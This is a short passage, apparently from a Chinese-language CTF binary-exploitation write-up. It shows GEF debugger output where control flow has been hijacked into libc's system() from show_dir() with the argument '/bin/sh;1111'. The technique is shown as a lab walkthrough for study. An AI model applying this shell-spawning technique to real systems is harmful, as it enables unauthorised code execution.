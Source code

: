 - 此时的栈帧如下

```assembly
gef➤  c
Breakpoint 3, __libc_system (line=0xff9ab694 "/bin/sh;1111") at ../sysdeps/posix/system.c:199
199     ../sysdeps/posix/system.c: No such file or directory.
───────────────────────────────────────── stack ────
0xff9ab67c│+0x0000: 0x08048775  →  <show_dir+142> leave          ← $esp
0xff9ab680│+0x0004: 0xff9ab694  →  "/bin/sh;1111"
0xff9ab684│+0x0008: 0x00000400
0xff9ab688│+0x000c: 0xf7d26678  →  0x0000355b ("[5"?)
0xff9ab68c│+0x0010: 0x000000d9
0xff9ab690│+0x0014: 0xf7d2f778  →  0x72647800
0xff9ab694│+0x0018: "/bin/sh;1111"
0xff9ab698│+0x001c: "/sh;1111"
───────────────────────────────────────── trace ────
[#0] 0xf7d63040 → __libc_system(line=0xff9ab694 "/bin/sh;1111")
[#1] 0x8048775 → show_dir()
[#2] 0x80486d7 → main()
```

